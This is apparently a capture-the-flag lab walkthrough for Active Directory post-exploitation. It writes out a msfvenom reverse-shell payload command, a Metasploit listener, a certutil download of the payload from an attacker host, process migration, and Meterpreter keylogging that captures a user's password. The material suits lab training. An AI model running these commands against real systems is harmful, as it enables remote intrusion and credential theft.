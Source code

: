 This file seems to be a credential database. The issue, however, is that the database is encrypted with a password. We could attempt to crack the password, but anyone who uses a credential database usually has the savvy to make sure the initial password is secure. We may have more success seeing how the user interacts with this database.

# SYSTEM is Sometimes Too Prvileged

Meterpreter has a built-in keylogger. This will be useful for extracting the user's keystrokes. However, we can't just start this keylogger and hope for the best since our shell is currently running in the SYSTEM context. SYSTEM won't be typing any keystrokes, so this won't help us. To capture the correct user's credentials, we will need to ensure that our shell is running in the context of that user.

Fortunately, Meterpreter provides us with a migrate feature, and since we are running as SYSTEM, we should be able to migrate to any process. You have remote code execution on THMSERVER1, use this to get a Meterpreter shell. If you need a recap on using Meterpreter and Metasploit, here is a module on its use. However for a quick rundown, you can use the following command to generate a PowerShell meterpreter payload:
~~~bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT="Listening port" -f psh -o shell.ps1
~~~
You can then also use the following to create the associated listener in the msfconsole:
~~~bash
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST exploitad; set LPORT "listening port'; exploit"
~~~
You can host your meterpreter shell using a Python webserver and then copy it using something like this:
~~~bash
certutil.exe -urlcache -split -f http:///shell.ps1
~~~
Once you have a meterpreter shell, you can continue. The first step is to see if the users have any running processes on this machine:
~~~bash
ps | grep "explorer"
~~~
It seems like we are lucky! The user has an active session on THMSERVER1. Let's migrate to a process of this user. The safest bet is usually sometime like explorer.exe:
~~~bash
migrate 3612
~~~
We can confirm that we are now running in the context of our target using the getuid command:
~~~bash
getuid
~~~
Now we are ready to start our keylogger:
~~~bash
keyscan_start
~~~
Now we have to be patient and wait. If we are lucky, we will capture some credentials! Give it a couple of minutes, and then run the following to dump captured keystrokes:
~~~bash
keyscan_dump
Dumping captured keystrokes...
keep<CR>
<Shift>Passwordpasswordpassword<CR>
~~~

